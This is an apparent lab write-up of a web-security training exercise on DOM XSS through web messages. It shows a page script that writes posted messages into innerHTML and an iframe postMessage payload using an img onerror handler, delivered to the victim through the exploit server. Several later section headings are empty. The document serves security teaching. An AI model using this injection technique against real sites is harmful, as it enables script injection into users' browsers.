 # DOM-based vulnerabilities

## Practitioner

### DOM XSS using web messages

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the `print()` function to be called.

----

1. The home page contains an `addEventListener()` call that listens for a web message. 

```html
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

2. Create payload:

```html
<iframe src="https://LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

When the iframe loads, the `postMessage()` method sends a web message to the home page. The event listener, which is intended to serve `ads`, takes the content of the web message and inserts it into the `div` with the ID `ads`. However, in this case it inserts our `img` tag, which contains an invalid `src` attribute. This throws an error, which causes the `onerror` event handler to execute the payload. 

![DOM-based](../../_static/images/dom-based1.png)

3. **Store** the exploit in the exploit server and **Deliver it to the victim**.

### DOM XSS using web messages and a JavaScript URL

### DOM XSS using web messages and JSON.parse

### DOM-based open redirection

### DOM-based cookie manipulation

## Expert

### Exploiting DOM clobbering to enable XSS

### Clobbering DOM attributes to bypass HTML filters

